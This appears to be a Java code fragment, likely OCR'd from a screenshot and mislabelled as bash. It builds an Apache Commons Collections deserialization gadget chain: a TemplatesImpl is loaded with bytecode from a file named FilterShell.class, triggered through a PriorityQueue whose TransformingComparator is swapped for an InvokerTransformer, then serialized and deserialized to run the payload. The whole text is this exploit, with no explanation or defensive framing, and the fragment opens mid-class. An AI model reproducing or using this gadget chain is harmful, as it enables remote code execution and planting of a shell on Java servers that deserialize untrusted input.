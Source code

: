 ```bash

    public static void main(String[] args) throws Exception {
        Templates templates = new TemplatesImpl();
        byte[] bytes = getBytes();
        setFieldValue(templates,"_name","Sentiment");
        setFieldValue(templates,"_bytecodes",new byte[][]{bytes});

        InvokerTransformer invokerTransformer=new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});


        TransformingComparator transformingComparator=new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue=new PriorityQueue<>(transformingComparator);
        priorityQueue.add(templates);
        priorityQueue.add(2);

        Class c=transformingComparator.getClass();
        Field transformField=c.getDeclaredField("transformer");
        transformField.setAccessible(true);
        transformField.set(transformingComparator,invokerTransformer);

        serialize(priorityQueue);
        unserialize("1.ser");

    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("1.ser"));
        out.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream In = new ObjectInputStream(new FileInputStream(Filename));
        Object o = In.readObject();
        return o;
    }
    public static byte[] getBytes() throws IOException {
        InputStream inputStream = new FileInputStream(new File("FilterShell.class"));

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }

}
```
